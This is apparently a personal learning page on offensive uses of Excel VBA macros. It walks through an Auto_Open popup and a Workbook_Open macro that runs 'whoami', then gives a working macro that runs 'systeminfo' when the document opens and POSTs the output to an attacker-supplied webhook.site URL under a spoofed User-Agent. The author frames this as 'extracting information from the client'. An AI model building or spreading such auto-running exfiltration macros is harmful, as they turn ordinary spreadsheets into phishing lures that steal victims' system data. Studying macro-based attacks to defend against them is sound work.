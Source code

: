 # Excel and Macros

### Introduction

Macros on Excel allow a user to run Visual Basic Code in the background of a document. This section of my website will be dedicated to playing around with macros, and finding ways to extract information from the client.

### Setup

In order to create a Excel file that we are able to create macros, we will have create a file with an extension of ".xlsm". This version of Excel has macros enabled, and will allow us to make and edit macros on it. This file version should be standard in Excel, so in order to do this, you just have to create a file and save it in the ".xlsm" format. Under the View tab, you will see Macros, and from there you can edit the macros.

### Popup Message

We can create a popup message that will appear when somebody enables the macros when they first open the document.

```cpp
'Code gotten from https://analysistabs.com/excel-vba/run-macro-automatically-opening-workbook/'
Sub Auto_Open()

    Msgbox "Popup Message Here"

End Sub
```

### Print Desktop Name

We can use the Visual Basic code to display the name of the Desktop to the screen when macros are enabled.

```csharp
'Source: https://www.youtube.com/watch?v=e2icQFxhp3w'
Sub Workbook_Open()
    Set Excel_Shell = CreateObject("WScript.Shell")
    Set Excel_Shell_Exec = Excel_Shell.Exec("whoami")
    MsgBox (Excel_Shell_Exec.StdOut.ReadAll)
End Sub
```

We have to copy this code under Microsoft Excel Objects in order to get it to work.

![On the right top we can see where the code will be edited](../.gitbook/assets/screenshot-2021-03-06-150627.png)

After this you can save and exit the Excel file. When you open it again, there should be a popup with the Desktop name.

### System Information Exfiltration

This code is meant for Windows systems \(tested on Windows 10\), and sends the output of the "systeminfo" command on Windows to an external website, where you can read it by entering your own webhook link.

```csharp
Sub Workbook_Open()
    Set Excel_Shell = CreateObject("WScript.Shell")
    Set Excel_Shell_Exec = Excel_Shell.Exec("systeminfo")
    'Source: https://stackoverflow.com/questions/158633/how-can-i-send-an-http-post-request-to-a-server-from-excel-using-vba'
    Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
    Url = "your https://webhook.site link"
    objHTTP.Open "POST", Url, False
    objHTTP.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
    objHTTP.send ("Systeminfo: " + Excel_Shell_Exec.StdOut.ReadAll)
End Sub

```




